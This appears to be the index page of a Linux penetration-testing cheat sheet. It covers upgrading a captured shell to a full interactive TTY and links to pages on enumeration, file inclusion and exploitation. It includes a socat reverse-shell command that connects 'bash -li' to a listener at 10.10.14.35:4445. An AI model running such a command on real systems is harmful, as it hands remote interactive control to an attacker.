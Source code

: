 # [Upgrading TTY](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
- With Python:
```bash
	python -c 'import pty; pty.spawn("/bin/bash")'
	ctrl+z
	echo $TERM && tput lines && tput cols
	stty raw -echo
	fg
	export SHELL=bash
	export TERM=xterm-256color
	stty rows 24 columns 121
```
- With Socat:
```bash
	socat file:`tty`,raw,echo=0 tcp-listen:4445
	socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.35:4445
```

# [General](https://github.com/PinkDraconian/InfoSecCheatSheets/blob/master/linux/general.md)
# [Enumeration](https://github.com/PinkDraconian/InfoSecCheatSheets/blob/master/linux/enumeration.md)
# [Local File Inclusion](https://github.com/PinkDraconian/InfoSecCheatSheets/blob/master/linux/local%20file%20inclusion.md)
# [Networking](https://github.com/PinkDraconian/InfoSecCheatSheets/blob/master/linux/networking.md)
# [Characters not allowed](https://github.com/PinkDraconian/InfoSecCheatSheets/blob/master/linux/characters%20not%20allowed.md)
# [Exploitation](https://github.com/PinkDraconian/InfoSecCheatSheets/blob/master/linux/exploitation.md)
